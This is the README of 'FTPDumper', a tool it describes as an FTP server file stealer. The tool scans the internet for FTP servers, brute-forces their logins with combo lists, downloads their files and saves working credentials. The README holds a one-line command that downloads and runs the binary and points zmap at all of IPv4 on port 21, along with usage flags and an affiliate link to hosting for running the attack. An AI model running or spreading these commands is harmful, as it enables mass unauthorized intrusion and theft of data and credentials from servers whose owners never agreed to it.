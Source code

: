 <p align="center"><img src="https://i.ibb.co/TR8ZCyn/New-Project.png" width="256" alt="logo"></p>
<h1 align="center">FTPDumper - A FTP Servers Stealer</h1>


<p align="center">
<img alt="FTPDumper forks" src="https://img.shields.io/github/forks/MatrixTM/FTPDumper?style=for-the-badge">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/MatrixTM/FTPDumper?style=for-the-badge">
<br>
<img alt="GitHub Downloads" src="https://img.shields.io/github/downloads/MatrixTM/FTPDumper/FTPDumper?style=social&color=07c1f0">
<p align="center">
 <img src="https://views.whatilearened.today/views/github/MatrixTM/FTPDumper.svg" width="80px" height="28px" alt="View">
</p>

___

<p align="center"><img src="https://i.imgur.com/H39uBH3.png" width="1040" alt="features"></p>

## 📖 What is FTPDumper ?

FTPDumper is an easy-to-use yet advanced FTP server file stealer.
It can be utilized in massive FTP brute-force attacks, supporting various formats such as combo, pipe input, CIDR, files, and even a single IP address.

FTPDumper boasts a plethora of features, including:
- 💡 **Anti-Fake File Detection**: Utilizes advanced algorithms to detect and prevent the extraction of counterfeit files.
- 🔍 **Self-Implemented Scanner**: Employs an internally developed scanning mechanism to ensure thorough and efficient.
- 🖥️ **Modern and Sleek User Interface**: Offers a visually appealing and user-friendly interface for seamless navigation and operation.
- ⚡ **Fast and Memory-Safe Operation**: Executes operations swiftly while maintaining optimal memory usage to prevent system slowdowns or crashes.
- 🤝 **Smart Connection and Timeout Management**: Implements intelligent connection strategies and timeout configurations to make maximum accuracy and resource utilization.

###### Use it at your own RISK!


## 🔍 Overview

- 🚀 [Quickstart](#-quickstart)
- ⚙️ [Arguments](#%EF%B8%8F-arguments)
- 👨‍💻 [Best Way to get a server](#-best-way-to-get-a-server)

# 🚀 Quickstart

---

#### One-Line Install And Running on Fresh VPS
```bash
apt update && apt install -y zmap && wget -q $(curl -s https://api.github.com/repos/MatrixTM/FTPDumper/releases/latest | grep browser_download_url | grep "FTPDumper" | cut -d '"' -f 4) && chmod +x FTPDumper && zmap -p 21 -B 50MB -q | ./FTPDumper -l 5000
```

<details>
 <summary><b>🔧 Manual Installation</b></summary>
<h3> 1. Download FTPDumper </h3>
<p>Download FTPDumper from <a href="https://github.com/MatrixTM/FTPDumper/releases">Releases</a></p>

<h3> 2. Set Up Permission </h3>

Set up permission to FTPDumper binary file.
```bash
chmod +x FTPDumper
```

<h3> 3. Run FTPDumper </h3>

You have a few ways to use FTPDumper.

- Zmap
  - Download Zmap
  ```bash
  sudo apt install zmap
  ```
  - Run FTPDumper (Zmap)
  ```bash
  zmap -p 21 -q | ./FTPDumper -l 500 -save
  ```
  - Run FTPDumper (DevWay)
  ```bash
  ./FTPDumper -l 500 -save -s 0.0.0.0/0
  ```
  Check out [Arguments](#-arguments) to see more
</details>

---

# ⚙️ Arguments

```bash
MatrixTM@FTPDumper: ./FTPDumper --help
FTPDumper - Scan World FTP Servers and Steal Their Data

  Flags:
       --version   Displays the program version string.
    -h --help      Displays help with available flag, subcommand, and positional value parameters.
    -scan --scanner   Ip/CIDR scanner (stdin|filename|cidr|ip) (default: stdin)
    -c --combo     Combo File (user:password)
    -p --ports     Ports Split by , (Default Port: 21)
    -o --output    Output Folder (default: files)
    -f --formats   File Formats Split by , (Default Format: all)
    -l --limit     Task limit (default: 10)
    -t --timeout   Timeout in seconds (default: 5s)
    -s --save      Save Credentials in hit.txt
    -v --verbose   Verbose Mode
```

| Argument         | Description                                                                     | Default Value |
|------------------|---------------------------------------------------------------------------------|:-------------:|
| --version        | Displays the program version string.                                            |     None      |
| -h, --help       | Displays help with available flag, subcommand, and positional value parameters. |     None      |
| -scan, --scanner | IP/CIDR scanner [stdin\|filename\|cidr\|ip] stdin                               |     stdin     |
| -c, --combo      | Combo File (user:password)                                                      |   anonymous   |
| -p, --ports      | Ports Split by ,                                                                |      21       |
| -o, --output     | Output Folder files                                                             |     files     |
| -f, --formats    | File Formats Split by ,                                                         |      all      |
| -l, --limit      | Task limit                                                                      |      10       |
| -t, --timeout    | Timeout in seconds                                                              |      5s       |
| -s, --save       | Save Credentials in hit.txt                                                     |     False     |
| -v, --verbose    | Verbose Mode                                                                    |     False     |
---

# 👨‍💻 Best Way to get a server

<a href="https://aeza.net/?ref=375036"><img src="https://i.ibb.co/LthJcL8/image.png" width="728" height="90"  alt="aeza"></a>
##### For this subject, the best hosting I found is [Aeza](https://aeza.net/?ref=375036 "Aeza Hosting")
##### You Can buy hourly 10Gbps & Ryzen 9 Servers with a cheap price

[//]: # ()
[//]: # ()
[//]: # (## Star history)

[//]: # ()
[//]: # (---)

[//]: # (<picture>)

[//]: # (  <source)

[//]: # (    media="&#40;prefers-color-scheme: dark&#41;")

[//]: # (    srcset=")

[//]: # (      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date&theme=dark)

[//]: # (    ")

[//]: # (  />)

[//]: # (  <source)

[//]: # (    media="&#40;prefers-color-scheme: light&#41;")

[//]: # (    srcset=")

[//]: # (      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date)

[//]: # (    ")

[//]: # (  />)

[//]: # (  <img)

[//]: # (    alt="Star History Chart")

[//]: # (    src="https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date")

[//]: # (  />)

[//]: # (</picture>)
